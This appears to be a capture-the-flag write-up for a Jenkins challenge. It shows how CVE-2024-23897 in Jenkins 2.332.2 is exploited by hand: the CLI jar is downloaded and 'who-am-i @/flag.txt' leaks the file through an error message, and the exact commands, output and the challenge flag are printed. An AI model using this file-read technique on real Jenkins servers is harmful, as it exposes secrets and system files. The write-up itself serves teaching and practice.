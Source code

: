 # Devops

## The Best Butler

[<img src="bestbutlerchall.png"
  style="width: 800px;"/>](bestbutlerchall.png)

Looking at the page it was a Jenkins instance. 

[<img src="jenkins.png"
  style="width: 800px;"/>](jenkins.png)

I tried using the script console to get code execution but I was met with this error around missing crumb.  

[<img src="crumb.png"
  style="width: 800px;"/>](crumb.png)

I tried getting a valid crumb and sending the request again but it wasn't working for me.  

I noticed the version of jenkins running `Jenkins 2.332.2`.

This is vulnerable to CVE-2024-23897 [https://www.jenkins.io/security/advisory/2024-01-24/](https://www.jenkins.io/security/advisory/2024-01-24/)

There are some POC's available which werent working for me so I exploited it manually by first of all downloading the cli-jar.

```bash
wget http://challenge.nahamcon.com:30192/jnlpJars/jenkins-cli.jar
```

Then with this I was able to leak the flag.txt files contents.

```bash
java -jar jenkins-cli.jar -noCertificateCheck -s http://challenge.nahamcon.com:30192 who-am-i @/flag.txt
May 23, 2025 11:27:41 PM hudson.cli.CLI _main
INFO: Skipping HTTPS certificate checks altogether. Note that this is not secure at all.

ERROR: No argument is allowed: flag{ab63a76362c3972ac83d5cb8830fdb51}
java -jar jenkins-cli.jar who-am-i
Reports your credential and permissions.
```


